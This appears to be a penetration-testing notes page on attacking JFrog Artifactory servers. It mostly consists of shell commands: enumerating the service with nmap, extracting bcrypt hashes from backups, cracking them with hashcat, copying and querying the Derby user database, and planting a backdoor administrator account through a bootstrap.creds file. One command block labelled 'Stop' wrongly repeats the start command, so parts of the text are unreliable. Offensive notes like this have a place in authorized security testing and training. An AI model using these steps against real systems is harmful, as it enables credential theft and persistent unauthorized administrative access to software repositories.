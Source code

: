 Artifactory control

Artifactory is a central binary respository distribution solution for Unix envrionments. Typically this runs on port `8082`.

```bash
# Start
sudo /opt/jfrog/artifactory/app/bin/artifactoryctl start

# Stop
sudo /opt/jfrog/artifactory/app/bin/artifactoryctl start
```
## Artifactory Enumeration

From local

```bash
ps aux | grep artifactory
```

From remote
```
nmap 10.10.10.100 -p 8081,8082 -Pn -v -sC -sV

PORT     STATE SERVICE VERSION
8081/tcp open  http    Apache Tomcat 8.5.41
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|   Supported Methods: GET HEAD POST PUT DELETE OPTIONS
|_  Potentially risky methods: PUT DELETE
8082/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: JFrog
```

## Compromising Artifactory Backups

Even with root access to a server hosting Artifactory its not typically feasible to replace binaries hosted by Artifactory unless we have direct administrative access to Artifactory itself. However, with root access it is possible to extract credentialed information from databases used by Artifactory.

Check for database backups
```bash
# Full Read
cat /opt/jfrog/artifactory/var/backup/access/*

# Grep for bcrypt hashes only
cat /opt/jfrog/artifactory/var/backup/access/* | grep -o '\$2[aby]\$[^\"]*'
```
The database backups will typically contain bcrypt hashes for each user account within Artifactory. These can be cracked with Hashcat
```
hashcat -m 3200 -a 3 -O $2a$08$WVSQpRD2NjcpLTKf5TNJDuJRoIwgi6gyfGUTJyXVo2mez/bCELGC6 Wordlists\rockyou.txt
```

## Compromising Artifactory's Database

```bash
mkdir -p /tmp/db
sudo cp -r /opt/jfrog/artifactory/var/data/access/derby /tmp/db
sudo chmod 755 /tmp/db/derby
sudo rm -f /tmp/db/derby/*.lck
```

Run Apache Derby
```
sudo /opt/jfrog/artifactory/app/third-party/java/bin/java -jar /opt/derby/db-derby-10.15.1.3-bin/lib/derbyrun.jar ij
```

Connect to the new copied database
```
connect 'jdbc:derby:/tmp/db/derby';
```
Select all data from access_users
```
select * from access_users
```

## Adding a Secondary Artifactory Admin Account

It is possible to gain administrative access to Artifactory by creating a secondary administrator account using the bootstrap.creds backdoor method. This process requires write access to the `/opt/jfrog/artifactory/var/etc/access` directory and restarting the Artifactory service.

Navigate to the Artifactory directory
```bash
cd /opt/jfrog/artifactory/var/etc/access
```
Create the bootstrap.creds file and include new admin credentials
```bash
sudo bash -c 'echo "ViperOne@*=Password123" > /opt/jfrog/artifactory/var/etc/access/bootstrap.creds'
```
Set the correct file permissions
```bash
sudo chmod 600 /opt/jfrog/artifactory/var/etc/access/bootstrap.creds
```

Restart the Artifactory Service:
```bash
sudo /opt/jfrog/artifactory/app/bin/artifactoryctl stop
sudo /opt/jfrog/artifactory/app/bin/artifactoryctl start
```
Veridy successful account creation
```bash
sudo grep "Create admin user" /opt/jfrog/artifactory/var/log/console.log
```
